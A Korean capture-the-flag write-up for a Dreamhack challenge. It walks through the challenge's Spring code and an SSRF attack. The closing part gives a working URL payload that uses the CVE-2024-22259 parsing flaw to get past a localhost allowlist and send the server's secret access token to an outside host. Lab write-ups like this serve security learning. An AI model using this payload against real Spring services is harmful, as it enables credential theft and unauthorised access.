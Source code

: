 # Strong BypassIF
https://dreamhack.io/wargame/challenges/1637

## Description
Access /api/flag to get the flag.

## Exploit

### TestApi
```java
@RestController
@RequestMapping("/api")
public class TestApi {

    @Value("${flag}")
    private String flag;

    @GetMapping("/flag")
    public ResponseEntity<Map<String, String>> getFlag(@RequestHeader(value="Access-Token", required=true) String accessToken){
        Map<String, String> response = new HashMap<>();
        if (accessToken == null || accessToken.isEmpty()){
            response.put("result", "fail");
            response.put("message", "Unauthorized");
            return ResponseEntity.status(403).body(response);
        }
        if (!accessToken.equals("[**REDACTED**]")){
            System.out.println(accessToken);
            response.put("result", "fail");
            response.put("message", "Access token is not Valid");
            return ResponseEntity.status(400).body(response);
        }
        response.put("result", "success");
        response.put("message", flag);
        return ResponseEntity.ok(response);
    }
```
해당 코드를 보면 엑세스 토큰이 지정된 값과 같으면 flag를 얻을 수 있다. 엑세스 토큰은 `application.properties`에 저장되어 있다.

### ApiTestController
```java
        // 프로토콜 검사
        if (!scheme.equals("http") && !scheme.equals("https")) {
            model.addAttribute("message", "Only http or https.");
            model.addAttribute("url", null);
            return "reqResult";
        }

        // 사용자 정보 검사 ?/#@
        if (containsInvalidCharacters(userInfo)) {
            model.addAttribute("message", "The input contains invalid characters.");
            model.addAttribute("url", null);
            return "reqResult";
        }

        // 공백 제거
        userInfo = userInfo.replaceAll("\\s+", "");

        // 호스트 검사 127.0.0.1 localhost
        if (containsInvalidCharacters(host)) {
            model.addAttribute("message", "The host contains invalid characters.");
            model.addAttribute("url", null);
            return "reqResult";
        }

        // 호스트 공백 제거
        host = host.replaceAll("\\s+", "");

        // path 수정
        if (!path.startsWith("/")) path = '/' + path;
        path = path.replaceAll("\\s+", "");

        // ?유저인포
        if (!userInfo.isEmpty()) {
            url = scheme + "://" + userInfo + "@" + host + path;
        } else {
            url = scheme + "://" + host + path;
        }

        // url = scheme + "://" + userInfo + "@" + host + path;
        // url = http://userinfo@host/path
```
url을 생성하기 위해 여러 조건들이 존재한다.
1. 프로토콜: http, https
2. userinfo에 `?/#@` 해당 문자열 있으면 차단
3. host `127.0.0.1, localhost` 만 허용

각각의 조건을 통과할때마다 변수에 값을 할당하고, 모든 조건을 통과하면 `url = scheme + "://" + userInfo + "@" + host + path;`로 url을 생성한다.

---

```java
        String parsed_host = UriComponentsBuilder.fromHttpUrl(URLDecoder.decode(url)).build().getHost();  // 여기에 127.0.0.1을 넣어야함
        System.out.println(parsed_host);
        if (Arrays.asList(ALLOWED_HOSTS).contains(parsed_host)) {
            try {
                String[] cmd = {"curl", "-H", "Access-Token: " + accessToken, "-s", url};  // curl 요청 토큰 비공개
                Process p = Runtime.getRuntime().exec(cmd);  // 프로세스 실행
                BufferedReader stdInput = new BufferedReader(new InputStreamReader(p.getInputStream()));  // 결과 저장
                String line;
                StringBuilder sb = new StringBuilder();
                while ((line = stdInput.readLine()) != null) {
                    sb.append(line);
                }
                p.waitFor();  // 프로세스 완료 대기
                if (sb.toString().contains("DH{")){  // DH{ 있으면 플래그 볼 수 없습니다 메시지
                    model.addAttribute("message", "You can't see the flag");
                    model.addAttribute("url", url);
                    return "reqResult";
                }
                model.addAttribute("message", sb.toString());
                model.addAttribute("url", url);
                return "reqResult";

            } catch (IOException | InterruptedException e) {
                throw new RuntimeException(e);
            }
        }else{
            model.addAttribute("message", "Not allowed to access this URL.");
            model.addAttribute("url", url);
            return "reqResult";
        }
    }
}
```
이 코드에선 먼저 url을 파싱해서 parsed_host를 얻는다.     
그 후 host가 ALLOWED_HOSTS에 있으면 curl 명령어를 통해서 요청을 발송하고, 아니면 실패를 반환한다.

해당 로직을 사용해서 ssrf를 이용해 공격하면 된다.   
url을 조작해서 나의 서버로 요청을 보내 access token을 탈취하고 해당 토큰과 함깨 /api/flag에 요청을 보내면 flag를 얻을 수 있다.

해당 서비스의 스프링부트 버전은 6.1.4를 사용하고 있다.    
6.1.4에 존재하는 cve는 많이 있는데, 그 중 CVE-2024-22259 open redirect를 이용했다.     
22259는 22243을 패치한 후 뒷 버전에서 발생한 취약점인데 새로운 poc를 찾아서 공격하는 문제이다. ejs 문제와 비슷한 것 같다.     
22243: https://spring.io/security/cve-2024-22243   
22259: https://spring.io/security/cve-2024-22259

https://github.com/SeanPesce/CVE-2024-22243   

https://github.com/spring-projects/spring-framework/commit/1d2b55e670bcdaa19086f6af9a5cec31dd0390f0#diff-b7ee321c4c2864dd3493c171d139fc498e11de4ef18cfc57dee3c6f5a84e3dc7L81

```
userinfo: qwer:qwer@127.0.0.1[
host: host.com
path: /
```
`url: https://qwer:qwer@127.0.0.1[@host.com/`     
서버에서는 host를 127.0.0.1로 파싱하지만 실제 호스트는 host.com이 되어서 host.com으로 토큰을 담고 요청을 보내게 된다.
해당 토큰을 이용해서 /api/flag로 요청을 보내면 플래그를 얻을 수 있다.